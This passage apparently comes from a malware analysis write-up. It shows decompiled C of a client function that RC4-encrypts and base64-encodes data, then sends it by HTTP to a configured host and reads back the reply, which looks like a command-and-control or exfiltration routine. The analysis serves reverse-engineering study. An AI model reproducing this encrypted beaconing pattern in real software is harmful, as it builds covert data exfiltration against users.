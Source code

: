 It so turns out function `FUN_00403d70` is responsible for calling these procedures.
And right before it, it encrypts _some_ data with _some_ key.

```c
void __thiscall FUN_00403d70(CClientSock *this,undefined4 *param_2)
{
    /* ... */

    strnew2?(&uStack1676,&this->rc4_key);
    uVar3 = (*this->vtfable->encrypt_rc4)();
    (*this->vtfable->base64_encode)(data_enc,uVar3,in_stack_00000014 * 2);
    
    /* ... */

    HVar4 = ObtainUserAgentString(0,aCStack534 + 2,&local_618);
    if (HVar4 == 0) {
        /* ... */

        http = WinHttpOpen(local_614,0,0,0,0);
        if (http != 0) {
            host = &this->host;
            if (7 < this->field31_0x28) {
                host = *host;
            }
            connection = WinHttpConnect(http,host,0x50,0);
            pWinHttpCloseHandle = WinHttpCloseHandle_exref;
            if (connection != 0) {
                request = WinHttpOpenRequest(connection,&this->method,0,0,0,0,0);
                if (request != 0) {
                    data = data_enc;
                    if (7 < local_61c) {
                        data = data_enc[0];
                    }
                    iVar5 = WinHttpSendRequest(request,0,0,data,length * 2,length * 2,0);
                    if ((iVar5 != 0) && (iVar5 = WinHttpReceiveResponse(request,0), iVar5 != 0)) {
                        pdVar1 = &this->recv_buffer_size;
                        do {
                            while( true ) {
                                *pdVar1 = 0;
                                WinHttpQueryDataAvailable(request,pdVar1);
                                if (*pdVar1 < 0x801) break;
                                this->recv_buffer_size = 0x800;
                            }
                            WinHttpReadData(request,this->recv_buffer,*pdVar1,&local_634);
                            pWinHttpCloseHandle = WinHttpCloseHandle_exref;
                        } while (this->recv_buffer_size != 0);
                    }
                    (*pWinHttpCloseHandle)(request);
                }
                (*pWinHttpCloseHandle)(connection);
            }
            (*pWinHttpCloseHandle)(http);
        }
       /* ... */
    }
    else {
        /* ... */
    }
    /* ... */
}
```
